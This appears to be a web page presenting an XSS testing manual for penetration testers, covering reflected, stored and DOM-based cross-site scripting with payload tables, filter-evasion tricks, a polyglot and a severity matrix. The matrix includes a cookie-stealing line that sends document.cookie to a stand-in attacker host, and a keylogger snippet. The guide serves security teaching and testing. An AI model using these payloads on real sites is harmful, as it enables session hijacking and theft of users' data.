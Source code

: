 Comprehensive XSS Testing Manual

# Comprehensive XSS Testing Manual

_From Detection to Exploitation: A Professional's Guide to Cross-Site Scripting Vulnerabilities_

## 1\. Reflected XSS Testing

_When attacker input is immediately reflected in the server response_

### Methodology

1.  **Input Surface Mapping**
    *   Test all user-controllable inputs:
        *   URL parameters (`?q=<test>`)
        *   Form fields (search, contact forms)
        *   HTTP headers (`User-Agent`, `Referer`)
        *   File uploads (metadata)
2.  **Reflection Detection**
    
    1\. Inject unique tracer: xss\_<random8chars>
    2. Check for reflection in:
       - Raw HTML
       - JavaScript contexts
       - HTTP headers
       - DOM elements
    
3.  **Context Analysis & Exploitation**
    
    | Context | Test Payload | Bypass Technique |
    | --- | --- | --- |
    | HTML Body | `<svg onload=alert(1)>` | Case manipulation |
    | HTML Attribute | `" autofocus onfocus=alert(1) x="` | Hex/HTML encoding |
    | JavaScript Block | `'-alert(1)-'` | Template literals |
    
4.  **Verification**
    *   Test in multiple browsers (Chrome, Firefox, Safari)
    *   Check for CSP restrictions via DevTools Console

## 2\. Stored XSS Testing

_Persistent attacks stored server-side_

### Execution Flow

Identify Storage Mechanisms → Submit Probe Payload → Data Appears in:
   - Public Views
   - Admin Interfaces
   - API Responses
   → Test Contexts

### Critical Checks:

*   Session persistence (login/logout)
*   Multi-user impact
*   Admin privilege escalation
*   WAF/Filter evasion:
    
    ```
    <img src=x onerror="alert`1`">  // Backticks evade quote filters
    ```
    

## 3\. DOM-Based XSS Testing

_Client-side execution without server reflection_

### Investigation Toolkit

1.  **Source Identification**
    *   `document.location`
    *   `window.name`
    *   `postMessage` events
2.  **Sink Analysis**
    
    ```
    // Dangerous Sinks
    element.innerHTML = userInput;
    eval(userControlledData);
    document.write(unfilteredInput);
    ```
    
3.  **Debugging Process**
    1.  Set breakpoints in DevTools
    2.  Trace data flow from source to sink
    3.  Test with progressive payloads:
        
        ```
        1;console.log(source)
        1;alert(document.domain)
        ```
        

## Expert Techniques

### Filter Evasion Cheat Sheet

| Defense Mechanism | Bypass Method | Example |
| --- | --- | --- |
| HTML Encoding | SVG/Vector payloads | `<svg onload=alert(1)>` |
| Keyword Blacklisting | Line breaks/Tab characters | `<scr\r\nipt>` |
| CSP Restrictions | JSONP endpoints | `<script src=trusted.json?callback=alert>` |
| DOM Sanitization | Alternative events | `onpointerenter=alert(1)` |

### Automation Tips

*   Use Burp Suite's **Active Scanner** with custom XSS insertion points
*   Create **XSS polyglots** for multi-context testing:
    
    ```
    javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
    ```
    

## Risk Assessment Matrix

| Severity | Impact Scenario | Proof of Concept |
| --- | --- | --- |
| Critical | Session hijacking via cookie theft | `document.location='http://attacker.com/?c='+document.cookie` |
| High | Keylogger implantation | `onkeypress=exfil(event.key)` |
| Medium | UI defacement | `document.body.innerHTML='HACKED'` |

## Recommended Practice Environments

1.  **PortSwigger Web Security Academy** (Free labs)
2.  **OWASP Juice Shop** (Self-hosted vulnerable app)
3.  **alert(1) to Win** (DOM XSS challenges)

**Final Note:** Always obtain proper authorization before testing. This guide is for educational purposes and ethical security assessments only.
